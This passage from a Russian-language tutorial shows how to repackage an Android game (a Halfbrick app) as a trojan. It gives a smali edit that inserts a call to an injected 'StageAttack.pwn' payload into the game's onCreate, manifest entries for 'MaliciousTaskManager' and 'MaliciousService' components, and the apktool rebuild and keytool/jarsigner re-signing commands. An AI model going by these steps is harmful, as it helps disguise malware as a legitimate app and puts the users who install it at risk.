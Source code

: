 ```java
...
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 9

    :try_start_0
    const-string v0, "android.os.AsyncTask"

    .line 465
    invoke-static {v0}, Ljava/lang/Class;->forName(Ljava/lang/String;)Ljava/lang/Class;
    :try_end_0
    .catch Ljava/lang/Throwable; {:try_start_0 .. :try_end_0} :catch_0

    .line 471
    :catch_0
    invoke-super {p0, p1}, Landroid/support/v4/app/FragmentActivity;->onCreate(Landroid/os/Bundle;)V
	
	.line 472
    invoke-static {p0}, Lcom/halfbrick/mortar/StageAttack;->pwn(Landroid/content/Context;)V
	
    .line 473
    invoke-static {}, Lcom/halfbrick/mortar/NativeGameLib;->TryLoadGameLibrary()Z

    .line 475
    invoke-virtual {p0}, Lcom/halfbrick/mortar/MortarGameActivity;->getIntent()Landroid/content/Intent;
    
    ...
```

Класс ```MaliciousTaskManager``` в payload это BroadcastReceiver, а ```MaliciousService``` это IntentService, поэтому мы должны их прописать в манифесте.

```xml
...
<receiver android:name=".MaliciousTaskManager"/>
<service android:name=".MaliciousService"/>
...
```

Запаковываем все обратно командой ```apktool b myfolder```. В итоге получим apk файл. Теперь нам необходимо его подписать, чтобы андроид принял наше приложение. Для начала сгенерируем ключ, которым будем подписывать:

```
keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
```

Подписываем apk:
```
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore my_application.apk alias_name
```

